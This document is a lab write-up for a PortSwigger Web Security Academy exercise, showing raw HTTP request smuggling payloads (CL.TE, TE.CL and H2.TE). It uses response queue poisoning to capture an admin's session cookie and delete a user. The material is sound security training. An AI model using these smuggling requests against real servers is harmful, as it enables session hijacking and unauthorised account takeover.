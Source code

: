 # Response queue poisoning via H2.TE request smuggling

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling), you'll learn: Response queue poisoning via H2.TE request smuggling! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

> Note: This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) option and manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request).
>  
> Please note that this feature is only available from [Burp Suite Professional / Community 2021.9.1](https://portswigger.net/burp/releases).

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210170333.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171026.png)

Let's send that request to Burp Suite's Repeater, and test HTTP request smuggling:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171103.png)

Then change the request method to POST:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171138.png)

First, we'll test CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) HTTP request smuggling.

- Send an attack request:

```http
POST / HTTP/1.1
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding : chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171417.png)

- Send a normal request:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171452.png)

Nope. It doesn't work.

Next, we'll test TE.CL (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header) HTTP request smuggling.

- Send an attack request:

```http
POST / HTTP/1.1
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding : chunked

aa

GET /404pls HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171937.png)

- Send a normal request:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210171946.png)

Still nope...

Now, what if I upgrade the HTTP to version 2 (HTTP/2)?

To do so, we'll need to:

- Enable the [Allow HTTP/2 ALPN override](https://portswigger.net/burp/documentation/desktop/http2#allow-http-2-alpn-override) and disable option "Update Content-Length" in Burp Suite's Repeater:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210173050.png)

- Manually [change the protocol to HTTP/2 using the Inspector](https://portswigger.net/burp/documentation/desktop/http2#changing-the-protocol-for-a-request):

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210172815.png)

**Then, we can send an attack request:**
```http
POST / HTTP/2
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

smuggled
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210173126.png)

**After that, when we send the second request, it returns a 404 response:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210173210.png)

Now, we can confirm that **the web application is vulnerable to H2.TE (Front-end uses HTTP/2, back-end uses `Transfer-Encoding` header) HTTP request smuggling.**

**In here, we can try to smuggle a complete request.**

If we instead smuggle a request that also contains a body, the next request on the connection will be appended to the body of the smuggled request. This often has the side-effect of truncating the final request based on the apparent `Content-Length`. As a result, the back-end effectively sees three requests, where the third "request" is just a series of leftover bytes.

- Send an attack request:

```http
POST /404pls HTTP/2
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
Host: 0a38005e0453f16bc058355500550074.web-security-academy.net


```

In here, we're going to a non-existent endpoint, so that we can verify the smuggling worked. Also, in the smuggled body, we downgraded the HTTP version to HTTP/1.1.

**When we send that request, we should receive a 404 response:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210174412.png)

**Now, we can poison the response queue by sending that request, and capture victim's session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230210174540.png)

Normally, we would receive a 404 response. This time, however, we received a 302 response. That being said, we successfully captured a victim's response!

**Since we captured a session cookie, we can try to access to the admin panel:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230213202504.png)

Boom! We can access to the admin panel!

**Let's delete user `carlos`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-11/images/Pasted%20image%2020230213202550.png)

Nice!

# What we've learned:

1. Response queue poisoning via H2.TE request smuggling